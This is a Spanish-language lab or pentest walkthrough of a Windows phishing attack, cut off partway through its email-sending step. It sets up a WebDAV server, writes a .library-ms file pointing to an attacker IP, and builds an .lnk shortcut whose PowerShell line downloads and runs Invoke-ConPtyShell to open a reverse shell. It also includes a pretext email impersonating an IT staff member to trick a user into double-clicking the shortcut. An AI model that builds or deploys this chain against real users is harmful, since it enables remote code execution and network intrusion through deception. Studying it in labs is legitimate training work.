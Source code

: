 - Montamos un servidor WebDAV en nuestra máquina pwnbox
	```bash
	python -m venv env
	source  env/bin/activate
	pip install wsgidav 
	wsgidav --host=0.0.0.0 --port=80 --root=$(pwd) --auth=anonymous
	```
- Creamos una biblioteca en la máquina Windows tipo `.library-ms`: son archivos en formato XML, y proporcionan accesos virtuales que organizan archivos desde múltiples ubicaciones en una sola vista. Creamos un archivo llamado `config.library-ms`:
	```xml
	<?xml version="1.0" encoding="UTF-8"?>
	<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
	<name>@windows.storage.dll,-34582</name>
	<version>6</version>
	<isLibraryPinned>true</isLibraryPinned>
	<iconReference>imageres.dll,-1003</iconReference>
	<templateInfo>
	<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
	</templateInfo>
	<searchConnectorDescriptionList>
	<searchConnectorDescription>
	<isDefaultSaveLocation>true</isDefaultSaveLocation>
	<isSupported>false</isSupported>
	<simpleLocation>
	<url>http://192.168.45.244</url>
	</simpleLocation>
	</searchConnectorDescription>
	</searchConnectorDescriptionList>
	</libraryDescription>
	```
	Una vez creado clicamos en él para que se serialice información del archivo  
  
- Creamos ahora un `Shortcut` (`Botón derecho > new > shotcut`) con el nombre `automatic_configuration.lnk` y el siguiente contenido:
	```powershell
	powershell.exe -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.244:8000/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.45.244 4444"
	```
- Nos aseguramos que en nuestro servidor WebDAV esté la siguiente información: 
	- `Body`: Cuerpo del mensaje (ej):
		```textplain
		Hello! My name is Dwight, and I'm a new member of the IT Team.
		
		This week I am completing some configurations we rolled out last week.
		To make this easier, I've attached a file that will automatically
		perform each step. Could you download the attachment, open the
		directory, and double-click "automatic_configuration"? Once you
		confirm the configuration in the window that appears, you're all done!
		
		If you have any questions, or run into any problems, please let me
		know!%
		``` 
	- `automatic_configuration.lnk`: Lo podemos mover desde la máquina windows al propio servidor WebDAV
	- `config.Library-ms`:  Lo podemos mover desde la máquina windows al propio servidor WebDAV (Puede parecer que metemos un archivo dentro de sí mismo, porque tras clicar en `config.Library-ms` abrimos el WebDAV, y lo que hacemos es copiar este archivo dentro de la carpeta)
	- `Invoke-ConPtyShell.ps1`: Lo copiamos desde nuestra kali para el ataque
- Supongamos que `$target` es el servidor SMTP, que tenemos un correo al que envíar información (`dave.wizard@supermagicorg.com`) y credenciales válidas para el usuario `test`, que tiene correo  `test@supermagicorg.com` y password `test`
	```bash